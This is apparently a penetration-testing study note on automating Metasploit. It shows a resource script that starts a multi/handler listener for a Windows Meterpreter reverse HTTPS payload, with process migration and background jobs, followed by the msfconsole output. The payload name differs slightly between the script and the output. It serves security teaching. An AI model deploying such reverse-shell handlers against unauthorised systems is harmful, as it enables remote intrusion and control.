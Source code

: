 ## Automating Metasploit

### Resource Scripts

Creating a resource script to start a multi/handler listener for a non-staged Windows 64-bit Meterpreter payload:

{% code title="listener.rc" %}
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j
```
{% endcode %}

Reading from the resource script via **msfconsole**:

```bash
kali@kali:~$ sudo msfconsole -r listener.rc
[sudo] password for kali:
...

[*] Processing listener.rc for ERB directives.
resource (listener.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (listener.rc)> set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
resource (listener.rc)> set LHOST 192.168.119.4
LHOST => 192.168.119.4
resource (listener.rc)> set LPORT 443
LPORT => 443
resource (listener.rc)> set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
resource (listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (listener.rc)> run -z -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

If we don't want to use our own scripts, there are resource scripts provided from Metasploit as well! These can be found in the `/usr/share/metasploit-framework/scripts/resource` directory.
